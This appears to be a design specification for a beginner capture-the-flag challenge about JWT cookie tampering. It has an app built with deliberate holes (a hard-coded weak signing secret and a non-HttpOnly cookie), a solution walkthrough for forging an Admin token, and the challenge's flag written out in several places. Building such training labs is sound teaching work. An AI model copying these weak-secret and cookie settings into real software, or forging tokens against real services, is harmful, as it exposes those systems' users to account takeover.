


# JWT Cookie Modification CTF Challenge - Enhanced Specification

## 🎯 Challenge Overview

A beginner-friendly web security CTF challenge focused on JWT (JSON Web Token) manipulation. Participants learn about JWT vulnerabilities by exploiting weak signing mechanisms to escalate privileges from "User" to "Admin" role.

**Challenge Name:** Vibe Slop  
**Category:** Web Security  
**Difficulty:** Beginner  
**Points:** 100-200  
**Flag:** `freshers{JWT_C00K13_M4N1PUL4T10N_1S_D4NG3R0US}`

## 🏗️ System Architecture



## 📋 User Journey Flow



## 💻 Technical Implementation

### Frontend Components

#### 1. Login Page (`/login`)
```html
<!-- Key Features -->
- Clean, modern design with CTF theme
- Username and password input fields
- Form validation (client-side)
- "Remember me" checkbox (dummy)
- Link to registration page
- Error message display area
```

#### 2. Registration Page (`/register`)
```html
<!-- Key Features -->
- Username field (alphanumeric, 3-20 chars)
- Password field (min 6 chars)
- Password confirmation field
- Terms acceptance checkbox (dummy)
- Success/error message display
- Loading spinner during submission
```

#### 3. Dashboard (`/dashboard`)
```html
<!-- Key Features -->
- Welcome message with username from JWT
- Current role display (User/Admin)
- "View Flag" button with conditional state
- Logout button
- Session info display (optional)
- Hint section (subtle)
```

### Backend API Specification

#### **POST /api/register**
```javascript
// Request
{
  "username": "testuser",
  "password": "password123"
}

// Response (Success - 201)
{
  "success": true,
  "message": "User registered successfully",
  "username": "testuser"
}
// Sets cookie: token=<jwt_token>; HttpOnly; SameSite=Strict

// Response (Error - 400)
{
  "success": false,
  "error": "Username already exists"
}
```

#### **POST /api/login**
```javascript
// Request
{
  "username": "testuser",
  "password": "password123"
}

// Response (Success - 200)
{
  "success": true,
  "message": "Login successful",
  "username": "testuser",
  "role": "User"
}
// Sets cookie: token=<jwt_token>; HttpOnly; SameSite=Strict

// Response (Error - 401)
{
  "success": false,
  "error": "Invalid credentials"
}
```

#### **GET /api/flag**
```javascript
// Headers Required
Cookie: token=<jwt_token>

// Response (Admin - 200)
{
  "success": true,
  "flag": "freshers{JWT_C00K13_M4N1PUL4T10N_1S_D4NG3R0US}",
  "message": "Congratulations! You've successfully exploited the JWT vulnerability!"
}

// Response (User - 403)
{
  "success": false,
  "error": "Access denied. Admin privileges required.",
  "hint": "Have you inspected your cookies lately?"
}
```

#### **GET /api/user**
```javascript
// Response (200)
{
  "username": "testuser",
  "role": "User",
  "loginTime": "2024-01-15T10:30:00Z"
}
```

### JWT Implementation Details

#### Token Structure
```javascript
// Payload
{
  "username": "testuser",
  "AccountType": "User",  // Intentionally capitalized
  "iat": 1705315800,      // Issued at
  "exp": 1705402200       // Expires (24 hours)
}

// Secret Key (INTENTIONALLY WEAK)
const JWT_SECRET = "secret123";  // Weak, predictable secret

// Signing
const token = jwt.sign(payload, JWT_SECRET, {
  expiresIn: '24h',
  algorithm: 'HS256'  // Symmetric algorithm
});
```

#### Cookie Configuration
```javascript
res.cookie('token', token, {
  httpOnly: false,  // INTENTIONALLY set to false for client-side access
  secure: false,    // Allow HTTP for local testing
  sameSite: 'lax',
  maxAge: 86400000  // 24 hours
});
```

### Database Schema

```sql
-- Users table
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password_hash TEXT NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    last_login TIMESTAMP
);

-- Login attempts (for monitoring)
CREATE TABLE login_attempts (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT,
    success BOOLEAN,
    ip_address TEXT,
    user_agent TEXT,
    timestamp TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Flag access logs
CREATE TABLE flag_access (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT,
    success BOOLEAN,
    jwt_payload TEXT,
    timestamp TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);
```

## 🔒 Security Implementation (Intentional Vulnerabilities)

### Primary Vulnerability: Weak JWT Secret
- **Issue**: JWT signed with predictable secret "secret123"
- **Impact**: Tokens can be forged by modifying and re-signing
- **Educational Value**: Demonstrates importance of strong secrets

### Secondary Considerations
```javascript
// Intentional weaknesses
const vulnerabilities = {
  weakSecret: "secret123",           // Easily guessable
  noneAlgorithm: false,              // Don't allow 'none' (too easy)
  httpOnlyCookie: false,             // Allow client-side access
  roleCheck: "AccountType",          // Case-sensitive field
  noRateLimiting: true,              // No rate limiting on flag endpoint
  verboseErrors: true                // Helpful error messages
};
```

## 📁 Project Structure

```
vibe_slop/
├── Dockerfile
├── docker-compose.yml
├── package.json
├── package-lock.json
├── .env.example
├── README.md
├── flag.txt
├── src/
│   ├── server.js              # Main Express server
│   ├── config/
│   │   ├── database.js        # SQLite connection
│   │   └── jwt.config.js      # JWT configuration
│   ├── middleware/
│   │   ├── auth.js            # JWT verification
│   │   └── logger.js          # Request logging
│   ├── routes/
│   │   ├── auth.routes.js     # Login/register routes
│   │   ├── api.routes.js      # API endpoints
│   │   └── page.routes.js     # Page serving
│   ├── controllers/
│   │   ├── auth.controller.js
│   │   └── flag.controller.js
│   ├── models/
│   │   └── user.model.js
│   └── utils/
│       ├── crypto.js          # Password hashing
│       └── validators.js      # Input validation
├── public/
│   ├── index.html             # Landing/login page
│   ├── register.html
│   ├── dashboard.html
│   ├── css/
│   │   ├── style.css
│   │   └── animations.css
│   ├── js/
│   │   ├── app.js
│   │   ├── auth.js
│   │   └── dashboard.js
│   └── assets/
│       ├── logo.png
│       └── favicon.ico
├── database/
│   ├── init.sql              # Database initialization
│   └── ctf.db                # SQLite database file
└── tests/
    ├── unit/
    └── integration/
```

## 🐳 Docker Configuration

### Dockerfile
```dockerfile
FROM node:18-alpine

# Create app directory
WORKDIR /usr/src/app

# Install dependencies
COPY package*.json ./
RUN npm ci --only=production

# Copy app source
COPY . .

# Create database directory
RUN mkdir -p /usr/src/app/database

# Initialize database
RUN npm run db:init

# Expose port
EXPOSE 3000

# Set environment
ENV NODE_ENV=production
ENV JWT_SECRET=secret123
ENV FLAG="freshers{JWT_C00K13_M4N1PUL4T10N_1S_D4NG3R0US}"

# Health check
HEALTHCHECK --interval=30s --timeout=3s --start-period=5s --retries=3 \
  CMD node healthcheck.js

# Run application
CMD ["node", "src/server.js"]
```

### docker-compose.yml
```yaml
version: '3.8'

services:
  vibe-slop:
    build: .
    container_name: vibe-slop-ctf
    ports:
      - "3000:3000"
    environment:
      - NODE_ENV=production
      - JWT_SECRET=secret123
      - FLAG=freshers{JWT_C00K13_M4N1PUL4T10N_1S_D4NG3R0US}
      - PORT=3000
    volumes:
      - ./database:/usr/src/app/database
      - ./logs:/usr/src/app/logs
    restart: unless-stopped
    networks:
      - ctf-network
    labels:
      - "traefik.enable=true"
      - "traefik.http.routers.vibe-slop.rule=Host(`vibe-slop.ctf.local`)"

networks:
  ctf-network:
    driver: bridge
```

## 🧪 Testing Scenarios

### Automated Tests
```javascript
// Test cases to implement
describe('CTF Challenge Tests', () => {
  test('User registration creates User role', async () => {
    // Register new user
    // Check JWT contains AccountType: "User"
  });
  
  test('Modified JWT with Admin role grants flag access', async () => {
    // Create JWT with AccountType: "Admin"
    // Verify flag endpoint returns flag
  });
  
  test('Unmodified User JWT denied flag access', async () => {
    // Use regular User JWT
    // Verify 403 response with hint
  });
  
  test('Invalid JWT signature rejected', async () => {
    // Modify JWT with wrong secret
    // Verify authentication fails
  });
});
```

### Manual Testing Checklist
- [ ] Registration flow works correctly
- [ ] Login with valid credentials succeeds
- [ ] Login with invalid credentials fails
- [ ] Dashboard shows correct username
- [ ] Flag button disabled for User role
- [ ] JWT cookie is accessible in browser
- [ ] Modified JWT with Admin role reveals flag
- [ ] Invalid JWT modifications are handled
- [ ] Logout clears session
- [ ] UI is responsive and user-friendly

## 🎓 Solution Walkthrough

### Step-by-Step Solution
1. **Register Account**
   ```bash
   # Create new account via web interface
   Username: hacker123
   Password: test123
   ```

2. **Inspect JWT Cookie**
   ```javascript
   // Browser Console
   document.cookie
   // Output: "token=eyJhbGciOiJIUzI1NiIs..."
   ```

3. **Decode JWT**
   ```javascript
   // Using jwt.io or browser console
   atob('eyJhbGciOiJIUzI1NiIs...')
   // Reveals: {"username":"hacker123","AccountType":"User",...}
   ```

4. **Modify Payload**
   ```javascript
   // Change AccountType
   payload.AccountType = "Admin";
   ```

5. **Re-sign JWT**
   ```javascript
   // Using jwt.io with secret "secret123"
   // Or using Node.js
   const jwt = require('jsonwebtoken');
   const newToken = jwt.sign(modifiedPayload, 'secret123');
   ```

6. **Replace Cookie**
   ```javascript
   // Browser Console
   document.cookie = `token=${newToken}; path=/`;
   ```

7. **Access Flag**
   ```javascript
   // Refresh page or click "View Flag"
   // Flag: freshers{JWT_C00K13_M4N1PUL4T10N_1S_D4NG3R0US}
   ```

## 🚀 Deployment Instructions

### Local Development
```bash
# Clone repository
git clone <repository>
cd vibe_slop

# Install dependencies
npm install

# Initialize database
npm run db:init

# Set environment variables
cp .env.example .env

# Run development server
npm run dev
```

### Production Deployment
```bash
# Build Docker image
docker build -t vibe-slop-ctf .

# Run container
docker run -d \
  -p 3000:3000 \
  --name vibe-slop \
  -e NODE_ENV=production \
  vibe-slop-ctf

# Or use docker-compose
docker-compose up -d
```

## 📊 Monitoring & Administration

### Logging Strategy
```javascript
// Log important events
const events = {
  registration: "New user registered",
  login: "User login attempt",
  flagAccess: "Flag access attempt",
  jwtModification: "Potential JWT tampering",
  error: "Application error"
};
```

### Admin Dashboard Features
- View registration count
- Monitor flag access attempts
- Track successful exploits
- Export solve statistics
- Reset challenge state

### Metrics to Track
- Total registrations
- Successful solves
- Average solve time
- Common mistakes
- Hint usage

## 🔧 Environment Configuration

### .env.example
```env
# Server Configuration
NODE_ENV=development
PORT=3000
HOST=0.0.0.0

# Security (Intentionally Weak)
JWT_SECRET=secret123
JWT_EXPIRY=24h
COOKIE_SECURE=false
COOKIE_HTTPONLY=false

# Database
DATABASE_PATH=./database/ctf.db
DATABASE_LOGGING=false

# CTF Configuration
FLAG=freshers{JWT_C00K13_M4N1PUL4T10N_1S_D4NG3R0US}
HINTS_ENABLED=true
MAX_LOGIN_ATTEMPTS=100

# Logging
LOG_LEVEL=info
LOG_FILE=./logs/app.log
```

## 📚 Educational Resources

### Concepts Covered
1. **JWT Structure & Encoding**
   - Header, Payload, Signature
   - Base64 encoding
   - HMAC signing

2. **Web Security Vulnerabilities**
   - Weak cryptographic secrets
   - Client-side security bypass
   - Authorization vs Authentication

3. **Browser Developer Tools**
   - Cookie inspection
   - Console usage
   - Network analysis

4. **HTTP Security Headers**
   - Cookie attributes
   - CORS policies
   - Content Security Policy

### Additional Learning Materials
- OWASP JWT Security Cheat Sheet
- JWT.io debugging tool
- Browser DevTools documentation
- CTF methodology guides

## 🎯 Success Criteria

### Challenge is successful when:
- [ ] Users can register and login
- [ ] JWT vulnerability is exploitable
- [ ] Flag is retrievable with Admin role
- [ ] Solution takes 10-30 minutes for beginners
- [ ] Educational value is clear
- [ ] No unintended solutions exist

## 📝 Notes for CTF Organizers

- **Estimated Solve Time**: 15-30 minutes
- **Required Skills**: Basic web knowledge, browser DevTools
- **Hints to Provide**:
  1. "Cookies might hold more than just session data"
  2. "JWT tokens have three parts separated by dots"
  3. "The secret might be simpler than you think"
- **Common Pitfalls**: 
  - Forgetting to refresh after cookie modification
  - Using wrong algorithm for re-signing
  - Typos in AccountType field

## 🔄 Version History

| Version | Date | Changes |
|---------|------|---------|
| 1.0.0 | 2024-01-15 | Initial specification |
| 1.1.0 | 2024-01-20 | Added Docker configuration |
| 1.2.0 | 2024-01-25 | Enhanced monitoring features |

---

**Author**: CTF Development Team  
**Last Updated**: January 2024  
**Challenge Category**: Web Security  
**Difficulty**: Beginner